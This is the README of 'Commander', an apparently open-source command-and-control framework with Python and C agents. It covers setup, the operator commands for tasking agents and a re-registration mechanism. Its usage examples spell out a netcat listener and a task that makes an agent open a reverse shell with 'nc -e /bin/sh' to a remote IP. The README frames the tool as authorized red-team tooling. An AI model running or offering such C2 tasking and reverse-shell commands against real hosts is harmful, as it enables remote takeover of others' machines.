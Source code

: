 # Commander
Commander is a command and control framework (C2) written in Python, Flask and SQLite. It comes built-in with two Linux agents written in Python and C.

### Features
- Fully encrypted communications (TLS)
- Base64 data encoding
- RESTful API
- Supports CLI Clients
- Comes with a built-in Agent written in C for small footprint

### Agents
- Python 3
- C

### Requirements
Python >= 3.6 is required to run and the following dependencies
```
Linux
apt install libcurl4-openssl-dev libb64-dev
pip3 install -r requirements.txt
```

## Preview
![screenshot](screenshots/commander_cli.jpg)

## How to Use it
Start the admin.py module first in order to create a local sqlite db file
```
python3 admin.py
```
Continue by running the server
```
python3 c2_server.py
```
And last the agent. For the python case agent you can just run it but in the case of the C agent you need to compile it first.
```
# python agent
python3 agent.py

# C agent
gcc agent.c -o agent -lcurl -lb64
./agent
```

By default both the Agents and the server are running over TLS and base64. The communication point is set to 127.0.0.1:5000 and in case a different point is needed it should be changed in Agents source files.

As the Operator/Administrator you can use the following commands to control your agents 
```
Commands:

  task add arg c2-commands
    Add a task to an agent, to a group or on all agents.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
    c2-commands: possible values are c2-register c2-shell c2-sleep c2-quit
      c2-register: Triggers the agent to register again.
      c2-shell: It takes an shell command for the agent to execute. eg. c2-shell whoami
      c2-sleep: Configure the interval that an agent will check for tasks.
      c2-quit: Forces an agent to quit.

  task delete arg
    Delete a task from an agent or all agents.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
  show agent arg
    Displays info for all the availiable agents or for specific agent.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
  show task arg
    Displays the task of an agent or all agents.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
  show result arg
    Displays the history/result of an agent or all agents.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
  find active agents
    Drops the database so that the active agents will be registered again.

  exit
    Bye Bye!
```

Special attention should be given to the 'find active agents' command. This command deletes all the tables and creates them again. It might sound scary but it is not, at least that is what i believe :P 

The idea behind this functionality is that the c2 server can request from an agent to re-register at the case that it doesn't recognize him.
So, since we want to clear the db from unused old entries and at the same time find all the currently active hosts we can drop the tables and trigger the re-register mechanism of the c2 server. See below for the re-registration mechanism.

## Flows
Below you can find a normal flow diagram
##### Normal Flow
![screenshot](screenshots/c2_normal_flow2.jpg)


In case where the environment experiences a major failure like a corrupted database or some other critical failure the re-registration mechanism is enabled so we don't lose our connection with our agents.

More specifically, in case where we lose the database we will not have any information about the uuids that we are receiving thus we can't set tasks on them etc... So, the agents will keep trying to retrieve their tasks and since we don't recognize them we will ask them to register again so we can insert them in our database and we can control them again.

Below is the flow diagram for this case.

##### Re-register Flow
![screenshot](screenshots/c2_reregister_flow2.jpg)

## Useful examples
To setup your environment start the admin.py first and then the c2_server.py and run the agent. After you can check the availiable agents and also task them to run a "die hard" reverse shell. Do that like this:

```
# show all availiable agents
show agent all

# first open a netcat on your machine
nc -vnlp 4444

# add a task to open a reverse shell for a specific agent
task add 85913eb1245d40eb96cf53eaf0b1e241 c2-shell nc -e /bin/sh 192.168.1.3 4444

```
This way you will have a shell that even if you get disconnected it will get back up immediately. Only the interactive commands will make it die permanently.

To instruct all the agents to run the command "id" you can do it like this:

```
# for all agents
task add all c2-shell id

# check the results of the "id"
show result all
```

To check the history/ previous results of executed tasks for a specific agent do it like this:

```
# check the results of a specific agent
show result 85913eb1245d40eb96cf53eaf0b1e241
```

You can also change the interval of the agents that checks for tasks to 30 seconds like this:

```
# to set it for all agents
task add all c2-sleep 30
```

## Testing
pytest was used for the testing. You can run the tests like this:
```
py.test
```
To check the code coverage and produce a nice html report you can use this:
```
# pip3 install pytest-cov
python -m pytest --cov=Commander --cov-report html
```


**Disclaimer**: This tool is only intended to be a proof of concept demonstration tool for authorized security testing. Running this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.
